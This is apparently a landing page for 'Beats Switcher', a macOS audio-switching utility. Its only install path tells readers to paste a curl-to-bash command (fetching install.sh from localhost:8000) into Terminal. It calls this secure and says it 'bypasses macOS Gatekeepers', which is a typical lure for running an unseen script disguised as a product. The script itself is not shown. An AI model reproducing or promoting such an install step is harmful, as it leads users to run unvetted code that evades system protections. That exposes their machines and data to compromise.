

Beats Switcher
Experience true auto-switching.
Seamlessly transition audio to your favorite Bluetooth headphones the second you play audio on your Mac. No more clicking through menus.
Apple Silicon & Intel Compatible
macOS 10.15+
Multi-Device Support
Easily save and switch between multiple AirPods, Beats, or any Bluetooth headphones.
Instant Auto-Connect
Detects audio playback and instantly routes it to your active device in milliseconds.
Native macOS UI
Clean, lightweight menu bar utility built natively for Mac. Zero bloatware.
Install via Terminal
curl -sL http://localhost:8000/install.sh | bash
How to install: Open the Terminal app on your Mac, paste the command above, and press Enter. This securely installs the app directly to your Applications folder and bypasses macOS Gatekeepers.